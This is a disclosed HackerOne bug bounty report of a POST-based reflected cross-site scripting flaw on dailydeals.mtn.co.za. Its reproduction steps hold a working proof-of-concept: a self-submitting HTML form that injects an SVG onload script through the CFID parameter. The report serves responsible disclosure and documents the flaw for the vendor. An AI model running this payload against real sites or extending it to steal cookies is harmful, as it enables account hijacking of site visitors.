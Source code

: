 # POST BASED REFLECTED XSS IN dailydeals.mtn.co.za

## Report Details
- **Report ID**: 1451394
- **URL**: https://hackerone.com/reports/1451394
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-17T11:44:48.945Z
- **Disclosed**: 2022-07-15T09:56:35.123Z

## Reporter
- **Username**: shuvam321
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
Dear Team ,
I have found a post based reflected XSS in https://dailydeals.mtn.co.za/ .

## Steps To Reproduce:

1.Create a html file with following content .

<form action="https://dailydeals.mtn.co.za/index.cfm?GO=CRAVE_ESTABLISHMENTS_LIST" method="POST"><input type="hidden" name="location_id" value="0"><input type="hidden" name="suburb" value="0"><input type="hidden" name="search_phrase" value=""><input type="hidden" name="submit_search" value="Search"><input type="hidden" name="m" value=""><input type="hidden" name="cpID" value=""><input type="hidden" name="CFID" value="a611fd5d-822a-4c08-a032-bcac1551f032'&quot;<!--><Svg OnLoad=(confirm)(1)-->"><input type="hidden" name="CFTOKEN" value="0"></form><script>document.forms[0].submit()</script>

2.Open the HTML file in any web-browser. 
  
3.Cross site Scripting will be triggered .

## Impact

Attacker can exploit this vulnerability to steal users cookies , redirect them to arbitrary domain and perform various attacks.

## Attachments
- Screenshot_from_2022-01-17_06-44-08.png
- Screenshot_from_2022-01-17_06-43-01.png
- POC.HTML
